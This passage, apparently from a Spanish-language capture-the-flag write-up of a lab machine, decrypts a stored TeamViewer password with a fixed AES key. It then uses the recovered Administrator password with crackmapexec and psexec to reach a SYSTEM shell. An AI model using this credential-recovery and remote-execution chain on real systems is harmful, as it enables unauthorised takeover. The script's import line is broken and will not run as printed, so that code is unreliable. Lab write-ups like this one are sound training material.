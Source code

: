 y creamos nuestro script

```python
#!/usr/bin/python3
from Crypto.Cipher = AES

key = b'\x06\x02\x00\x00\x00\xa4\x00\x00\x52\x53\x41\x31\x00\x04\x00\x00'
IV = b'\x01\x00\x01\x00\x67\x24\x4F\x43\x6E\x67\x62\xf2\x5e\xa8\xd7\x04'

decipher = AES.new(key, AES.MODE_CBC, IV)
ciphertext = bytes([255, 155, 28, 115, 214, 107, 206, 49, 172, 65, 62, 174, 19, 27, 78, 79, 88, 47, 108, 226, 209, 225, 243, 218, 126, 141, 55, 107, 38, 57, 78, 91])

plaintext = decipher.decrypt(ciphertext).decode()
print(plaintext)
```

Lanzamos el script y tenemos la contraseña del teamviewer.

contraseña encontrada es contraseña que tenemos que verificar.

```bash
crackmapexec smb 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
```

Nos da un **(Pwn3d!)**.

Nos connectamos con psexec

```bash
psexec.py WORKGROUP/Administrator@10.10.10.180 cmd.exe
password: !R3m0te!

whoami nt authority\system
```

Ya somos administrador y podemos ver la flag.

